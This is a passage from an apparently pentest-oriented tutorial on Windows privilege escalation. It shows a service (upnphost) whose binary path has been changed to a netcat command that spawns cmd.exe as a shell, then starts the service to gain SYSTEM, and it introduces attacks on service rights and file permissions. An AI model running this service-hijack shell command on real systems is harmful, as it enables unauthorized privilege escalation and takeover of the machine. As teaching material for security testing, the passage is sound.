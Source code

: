 SERVICE_NAME: upnphost
TYPE : 20 WIN32_SHARE_PROCESS
START_TYPE : 3 DEMAND_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Universal Plug and Play Device Host
DEPENDENCIES : SSDPSRV
SERVICE_START_NAME : LocalSystemC:\> net start upnphost

 [![](../_resources/f9cd5b9baa685b1b8da1a1dc9363dffa.png)](http://www.fuzzysecurity.com/tutorials/images/priv01_big.png)

Service Shell (upnphost)

We will not always have full access to a service even if it is incorrectly configured. The image below is taken from Brett Moore's presentation on Windows privilege escalation, any of these access rights will give us a SYSTEM shell.

![](../_resources/0f530ff004a3d7f3e6ecfeb0a605f73d.png)

The important thing to remember is that we find out what user groups our compromised session belongs to. As mentioned previously "Power Users" is also considered to be a low privileged user group. "Power Users" have their own set of vulnerabilities, Mark Russinovich has written a very interesting article on the subject.

The Power in Power Users (Mark Russinovich) - [here](http://blogs.technet.com/b/markrussinovich/archive/2006/05/01/the-power-in-power-users.aspx)

Finally we will examine file/folder permissions, if we can not attack the OS directly we will let the OS do all the hard work. There is to much ground to cover here so instead I will show you two kinds of permission vulnerabilities and how to take advantage of them. Once you grasp the general idea you will be able to apply these techniques to other situations.
